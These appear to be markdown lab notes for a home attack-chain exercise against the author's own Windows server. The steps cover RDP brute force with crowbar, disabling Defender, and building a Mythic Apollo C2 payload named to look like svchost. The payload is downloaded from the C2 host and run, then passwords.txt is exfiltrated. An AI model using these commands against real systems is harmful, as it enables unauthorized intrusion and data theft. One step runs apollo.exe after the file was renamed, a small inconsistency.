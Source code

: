 
### 1. Introduction

Goal: Perform an RDP brute force attack using Kali Linux, generate a Mythic C2 agent and host it, establish a C2 session from a compromised Windows server and exfiltrate a sensitive file to complete the attack chain.

---

### 2. Objective

- Launch a brute force attack on a Windows server.
- Run discovery and defense evasion commands.
- Build and host a Mythic payload.
- Download and execute the payload on the Windows target.
- Establish a C2 session and exfiltrate the `passwords.txt` file.

---

### 3. Preparing the Windows Server

1. **Create Fake Password File**
    - Navigate to `Documents` and create a file named `passwords.txt`.
        ![[Pasted image 20251018160503.png]]

2. **Change Windows Password**
    
    - Go to:  
        `Start Menu` → Username → `Change Account Settings` → `Sign-in Options` → Password → `Change`
        
    - Set the new password to `Winter2024!`.
        
3. **Adjust Password Policy (if required)**
    
    - Minimum password length: **5 characters**
    - Disable complexity requirements in _Local Group Policy Editor_.
    ![[Pasted image 20251018160803.png]]

---

### 4. Performing RDP Brute Force Attack

1. **Prepare Wordlist**
    - Navigate to Kali Linux terminal:
        
        `cd /usr/share/wordlists 
        `sudo gunzip rockyou.txt.gz 
        `sudo head -50 rockyou.txt > ~/home/kali/mydfir-wordlist.txt 
        `echo "Winter2024!" >> ~/home/kali/mydfir-wordlist.txt
        ![[Screenshot (24).png]]
        
2. **Install Crowbar**
    
    `sudo apt-get update && sudo apt-get upgrade -y 
    `sudo apt-get install -y crowbar`
    
3. **Create Target File**
    
    - Add Windows Server IP and username.
        
4. **Run Brute Force Attack**
    
    `crowbar -b rdp -u Administrator -C Challenge-Wordlist.txt -s <MYDFIR-WIN-emaan-IP>/32`
    
5. **Successful Login**
    
    - Username: `Administrator`
    - Password: `Winter2024!`
        
![[Pasted image 20251018163154.png]]

---

### 5. Connecting to the Windows Server

1. **Establish RDP Session**
    
    `xfreerdp /u:Administrator /p:Winter2024! /v:<MYDFIR-WIN-IP>:3389`
    
2. **Trust the certificate** to complete the connection.
    
![[Screenshot 2025-10-18 163516.png]]
---

### 6. Discovery Phase

Run basic discovery commands in PowerShell or CMD:

`whoami 
`ipconfig 
`net user 
`net group 
`net user Administrator`
![[Pasted image 20251018164112.png]]
![[Pasted image 20251018164424.png]]
---

### 7. Defense Evasion

Disable Windows Defender:

- Open **Windows Security** → **Virus & Threat Protection**.
- Disable Real-time protection and other security features.
![[Pasted image 20251018164559.png]]
---

### 8. Execution Phase (Mythic Agent Setup)

1. **Access Mythic Server**
    
    `ssh root@<MYDFIR-MYTHIC-IP>`
    
2. **Install Apollo Agent**
    
    `./mythic-cli install github https://github.com/MythicAgents/Apollo.git`
    
    ![[Screenshot (25).png]]
    
3. **Install HTTP C2 Profile**
    
    `./mythic-cli install github https://github.com/MythicC2Profiles/http`
    
    ![[Pasted image 20251018165718.png]]
    
4. **Create Payload in Mythic Web GUI**
    
    - Target OS: **Windows**
    - Output Format: **WinExe**
    - Commands: **Include All**
    - C2 Profile: **HTTP**
    - Callback Host: `http://<MYDFIR-MYTHIC-IP>`
    - Port: `80`
    - Payload Name: `apollo.exe`

![[Pasted image 20251018170233.png]]

---

### 9. Hosting and Downloading Payload

1. **Download Payload, Rename file to "svchost-emaan.exe", move the file to a new directory**
    
    `wget <payload_download_link> --no-check-certificate
    `mv lcd5d49e-680e-4478-8526-708858e25b14 svchost-emaan.exe`
    
    ![[Pasted image 20251018170657.png]]
    
2. **Serve Payload over HTTP**
    
    `ufw allow 80 
    `ufw allow 9999`
    `python3 -m http.server 9999`

![[Pasted image 20251018171055.png]]
![[Pasted image 20251018171120.png]]
3. **Download on Windows Target**
    
    `Invoke-WebRequest -Uri http://<MYDFIR-MYTHIC-IP>:9999/svchost-emaan.exe -OutFile "C:\Users\Public\Downloads\svchost-emaan.exe"`
    
    - Navigate into "C:\Users\Public\Downloads" to check if the file has been downloaded.
    
3. **Execute Payload**
    
    `.\apollo.exe`
    
4. **Verify Connection**
    
    `netstat -anob`
    
    - Also check Task Manager or Mythic GUI callbacks.
        

---

### 10. Establishing C2 Connection

- Open Mythic Web GUI → **Active Callbacks**.
- Interact with the agent and run:
    
    `whoami ipconfig`
    

---

### 11. Exfiltration

1. **Download the Target File**
    
    `download C:\Users\Administrator\Documents\passwords.txt`
    
2. **Verify in Mythic Web GUI**
    
    - Navigate to **Files** → Check `passwords.txt` contents.
        


**Reference**
https://youtu.be/85x0NLj2zUo?si=_cpuOgH-OqAYwgYo